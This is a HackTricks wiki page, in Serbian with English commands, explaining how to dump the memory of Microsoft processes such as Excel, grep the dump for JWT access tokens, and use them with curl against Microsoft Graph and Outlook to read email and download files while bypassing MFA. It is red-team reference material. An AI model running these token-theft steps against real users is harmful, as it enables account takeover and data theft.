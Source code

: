# Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Osnovne informacije**

Kao što je objašnjeno u [**ovom videu**](https://www.youtube.com/watch?v=OHKZkXC4Duw), neki Microsoft softveri sinhronizovani sa cloud-om (Excel, Teams...) mogu **čuvati pristupne tokene u čistom tekstu u memoriji**. Tako da samo **dumpovanje** **memorije** procesa i **pretraga za JWT tokenima** može vam omogućiti pristup raznim resursima žrtve u cloud-u, zaobilazeći MFA.

Koraci:

1. Dumpujte excel procese sinhronizovane sa EntraID korisnikom koristeći vaš omiljeni alat.
2. Pokrenite: `string excel.dmp | grep 'eyJ0'` i pronađite nekoliko tokena u izlazu
3. Pronađite tokene koji vas najviše zanimaju i pokrenite alate nad njima:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**Napomena da se ovi tipovi pristupnih tokena mogu naći i unutar drugih procesa.**

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
